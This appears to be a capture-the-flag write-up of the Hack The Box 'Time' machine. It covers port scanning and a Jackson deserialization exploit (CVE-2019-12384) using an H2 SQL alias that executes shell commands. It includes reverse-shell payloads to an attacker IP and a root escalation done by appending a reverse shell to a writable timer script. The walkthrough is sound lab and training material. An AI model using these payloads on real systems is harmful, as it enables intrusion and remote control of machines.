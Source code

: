 ## Default Information
IP Address: 10.10.10.214\
OS: Linux

## Discovery

Before we start, let's first add the IP address and the host to our ```/etc/hosts``` file.

```
10.10.10.214    time.htb
```
### Masscan
Firstly, we will use masscan to identify the open ports

```
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo masscan -p1-65535,U:1-65535 10.10.10.214 --rate=1000 -e tun0
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2021-12-31 09:12:02 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 22/tcp on 10.10.10.214                                    
Discovered open port 80/tcp on 10.10.10.214  
```

### Nmap
We will then use the open ports obtained from masscan to run a scan using nmap to enumerate the services operating behind each port

| Port Number | Service | Version | State |
|-----|------------------|----------------------|----------------------|
| 22	| SSH | OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0) | Open |
| 80	| HTTP | 63 Apache httpd 2.4.41 ((Ubuntu)) | Open |

### Gobuster
We will then use Gobuster to find the endpoints that are accessible from http://time.htb. However, there are no endpoints that are of interest to us. 

```
http://10.10.10.214:80/css                  (Status: 301) [Size: 310] [--> http://10.10.10.214/css/]
http://10.10.10.214:80/fonts                (Status: 301) [Size: 312] [--> http://10.10.10.214/fonts/]
http://10.10.10.214:80/images               (Status: 301) [Size: 313] [--> http://10.10.10.214/images/]
http://10.10.10.214:80/index.php            (Status: 200) [Size: 3813]
http://10.10.10.214:80/index.php            (Status: 200) [Size: 3813]
http://10.10.10.214:80/javascript           (Status: 301) [Size: 317] [--> http://10.10.10.214/javascript/]
http://10.10.10.214:80/js                   (Status: 301) [Size: 309] [--> http://10.10.10.214/js/]
http://10.10.10.214:80/vendor               (Status: 301) [Size: 313] [--> http://10.10.10.214/vendor/]
```

### Web-content discovery

Visiting http://time.htb, we realize that we can choose 2 options either ```Beautify``` or ```Validate(beta!)```. We realize that using ```Validate(beta!)``` also gives us an error message which tells us that the backend is using jackson.

![jackson](https://github.com/joelczk/writeups/blob/main/HTB/Images/TIme/jackson.png)
## Exploit
### Exploiting jackson
First, let us try to exploit CVE-2020-35728. For this exploit, we will use the payload that is shown in the screenshot below.

![CVE-2020-23728](https://github.com/joelczk/writeups/blob/main/HTB/Images/TIme/CVE-2020-35728.png)

However, we realize that the jackson library used may not be vulnerable to CVE-2020-23728 as we obtain an error message that tells is that the class org.apache.tomcat.dbcp.dbcp2.datasources.PerUserPoolDataSource is not being used.

```
Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.InvalidTypeIdException: Could not resolve type id 'org.apache.tomcat.dbcp.dbcp2.datasources.PerUserPoolDataSource' as a subtype of [simple type, class java.lang.Object]: no such class found
```

Modifying the class to use ```org.springframework.context.support.FileSystemXmlApplicationContext``` also yields the same result whereby we obtain an error message that tells us that no such class is found. 

Moving on to CVE-2019-12384, we will modify the payload accordingly to the screenshot below. We realize that for this payload, we are able to obtain a callback from our localhost.

![CVE-2019-12384](https://github.com/joelczk/writeups/blob/main/HTB/Images/TIme/CVE-2019-12384.png)

Now, we will test for RCE with a ping command. This can be achieved by modifying the inject.sql file with ping command.

```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	String[] command = {"bash", "-c", cmd};
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('ping -c 1 10.10.16.8')
```

From wireshark, we can see that ping command has been executed, which means that RCE is successfully.

![Ping command](https://github.com/joelczk/writeups/blob/main/HTB/Images/TIme/ping_command.png)

### Obtaining reverse shell

To obtain the reverse shell, all we have to do is to modify the inject.sql file.

```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	String[] command = {"bash", "-c", cmd};
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('/bin/bash -i >& /dev/tcp/10.10.16.8/3000 0>&1')
```

Next, we will have to stabilize the reverse shell

```
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nlvp 3000
listening on [any] 3000 ...
connect to [10.10.16.8] from (UNKNOWN) [10.10.10.214] 44572
bash: cannot set terminal process group (913): Inappropriate ioctl for device
bash: no job control in this shell
pericles@time:/var/www/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
pericles@time:/var/www/html$ export TERM=xterm
export TERM=xterm
pericles@time:/var/www/html$ stty cols 132 rows 34
stty cols 132 rows 34
pericles@time:/var/www/html$ 
```
### Obtaining user flag

```
pericles@time:/home$ ls
ls
pericles
pericles@time:/home$ cat pericles/user.txt
cat pericles/user.txt
<Redacted user flag>
pericles@time:/home$ 
```

### Privilege Escalation to root

Using linpeas, we are able to find that there is a system timer for timer_backup.service that is being executed. Apart from that, we are also able to find /usr/bin/timer_backup.sh which is presumably the script that the timer_backup.service is based upon.
```
╔══════════╣ System timers
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#timers                                                 
NEXT                        LEFT           LAST                        PASSED      UNIT                         ACTIVATES                     
Sat 2022-01-01 03:09:22 UTC 4s left        Sat 2022-01-01 03:09:12 UTC 5s ago      timer_backup.timer           timer_backup.service 

╔══════════╣ .sh files in path
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#script-binaries-in-path                                
/usr/bin/gettext.sh                                                                                                  
You own the script: /usr/bin/timer_backup.sh
/usr/bin/rescan-scsi-bus.sh
```

Looking at the file permissions for /usr/bin/timer_backup.sh, we can see that the file is owned by the pericles and we have read and write permissions of the file. 

```
pericles@time:/tmp$ ls -la /usr/bin/timer_backup.sh
ls -la /usr/bin/timer_backup.sh
-rwxrw-rw- 1 pericles pericles 88 Jan  1 03:20 /usr/bin/timer_backup.sh
```

Inspecting the file contents of timer_backup.sh, we realize that this script just zips contents in /var/www/html into a website.bak.zip file and moves the website.bak.zip file into /root/backup.zip file. However, such information does not point to any possible exploitation.

However, remembering that we have write permissions over this file, we can easily modify this file to add in a line to spawn a reverse shell.

```
pericles@time:/usr/bin$ echo -e '\n/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.8/2000 0>&1"' >> timer_backup.sh
echo -e '\n/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.8/2000 0>&1"' >> timer_backup.sh
pericles@time:/usr/bin$ cat timer_backup.sh
cat timer_backup.sh
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip

/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.8/2000 0>&1"
pericles@time:/usr/bin$
```

After a while, the reverse shell will be spawned. However, we realized that this reverse shell that is being spawned is a temporary shell and dies in a short period of time. 

### Obtaining root flag
```
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.8] from (UNKNOWN) [10.10.10.214] 44396
bash: cannot set terminal process group (240561): Inappropriate ioctl for device
bash: no job control in this shell
root@time:/# cat root/root.txt
cat root/root.txt
<Redacted root flag>
root@time:/# exit
```
